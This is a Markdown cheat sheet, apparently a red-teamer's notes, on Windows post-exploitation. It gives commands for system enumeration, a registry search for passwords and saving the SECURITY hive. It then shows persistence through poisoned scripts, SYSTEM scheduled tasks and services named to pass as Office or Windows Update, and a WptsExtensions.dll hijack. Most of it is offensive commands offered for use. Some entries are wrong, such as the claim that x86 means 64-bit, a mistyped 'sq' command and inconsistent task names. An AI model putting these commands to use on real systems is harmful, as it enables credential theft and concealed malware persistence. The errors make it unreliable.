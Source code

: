 ## Table of Contents

  - [Windows System Enumeration](#Windows\System\Enumeration)
          - [Show version information](#Show\version\information)
          - [Display hotfixes and service packs](#Display\hotfixes\and\service\packs)
          - [Display whether 32 or 64-bit system](#Display\whether\32\or\64-bit\system)
          - [Enumerate OS Architecture](#Enumerate\OS\Architecture)
          - [Display OS configuration, including service pack lvls](#Display\OS\configuration,\including\service\pack\lvls)
          - [Display Drive](#Display\Drive)
          - [Display logical drives](#Display\logical\drives)
          - [Set ENV variables](#Set\ENV\variables)
          - [Date of last reboot](#Date\of\last\reboot)
          - [Display shares](#Display\shares)
          - [Display local sessions](#Display\local\sessions)
        - [List users mounter shares](#List\users\mounter\shares)
          - [Search Registry for password](#Search\Registry\for\password)
          - [Save security hive to a file (need sys priv)](#Save\security\hive\to\a\file\(need\sys\priv))
      - [Poisonsing Existing Scripts](#Poisonsing\Existing\Scripts)
    - [System Level Persistence](#System\Level\Persistence)
        - [SCHTASKS on boot](#SCHTASKS\on\boot)
          - [Add Task](#Add\Task)
          - [Query task in verbose mode](#Query\task\in\verbose\mode)
          - [Delete task](#Delete\task)
          - [Run task manually](#Run\task\manually)
          - [Call schtasks to import a task as XML](#Call\schtasks\to\import\a\task\as\XML)
      - [Service Creation](#Service\Creation)
          - [Add service](#Add\service)
          - [Assign description to service (change to blend in)](#Assign\description\to\service\(change\to\blend\in))
          - [Query Service Config](#Query\Service\Config)
      - [Windows 10 .DLL Hijack](#Windows\10\.DLL\Hijack)
          - [List Folders in %PATH%](#List\Folders\in\%PATH%)

## Windows System Enumeration
###### Show version information
```powershell
ver    #enumerate windows version information
```
###### Display hotfixes and service packs
```powershell
wmic wfe list
```
###### Display whether 32 or 64-bit system
`wmic cpu get datawidth /formate:list`
###### Enumerate OS Architecture
	x86 means machine is 64-bit
###### Display OS configuration, including service pack lvls
`systeminfo`
###### Display Drive
`fsutil fsinfo drives`
###### Display logical drives
`wmic logicaldisk get description,name`
###### Set ENV variables
`set`
###### Date of last reboot
`dir /a C:\pagefile.sys
###### Display shares
`net share`
#windows
###### Display local sessions
`net session`
#netsh
##### List users mounter shares
	Must be be run in the context of the user.
`reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2\`
#enumeration #registry 
######  Search Registry for password
`reg query HKLM /f passsword /t REG_SZ /s`
###### Save security hive to a file (need sys priv)
`reg save HKLM\Security security.hive`
#### Poisonsing Existing Scripts
Enumerate all user persistence methods above looking for existing persistence that has been created via script files such as `.bat, .ps1 etc.` If they are modifiable by a basic user, modify them to launch a malicious uploaded payload. 
### System Level Persistence
#windows #persistence #systemlevel #backdoor
##### SCHTASKS on boot
	upload binary to system folder and create sheduled task pointing at that binary for execution
###### Add Task
`schtasks /Create /F /RU system /SC ONLOGON /TN OfficeUpdate /TR <FILE_PATH>`
###### Query task in verbose mode
`schtasks /query /tn OfficeUpdater /fo list /v`
###### Delete task
`schtasks /delete /tn OfficeUpdate /f`
###### Run task manually
`schtasks /run /tn OfficeUpdater`
###### Call schtasks to import a task as XML
`schtasks /create /tn /OfficeUpdata /xml <FILE_PATH>.xml /f`
#### Service Creation
	Uplaod binary to folder and create service pointing at that binary. Can change the service description and display name to blend into the target system.
###### Add service
	Change display-name to a name that blends in with the executable
	
`sc create <SERVCE_NAME> binpath="FILE_PATH" start=auto displayname="Windows Update Proxy Service"`
###### Assign description to service (change to blend in)
`sc description <SERVICE_NAME> "This service ensures Windows Update workds correctly in proxy environments"`

###### Query Service Config
`sq qc <SERVICE_NAME>`
`sq query <SERVICE_NAME>`

#### Windows 10 .DLL Hijack 
	Upload .dll names WptsExtensions.dll
anywhere in system path, reboot machine, and the schedule service will load the malicious WptsExtensions.dll
###### List Folders in %PATH%
`reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment /v PATH`






























































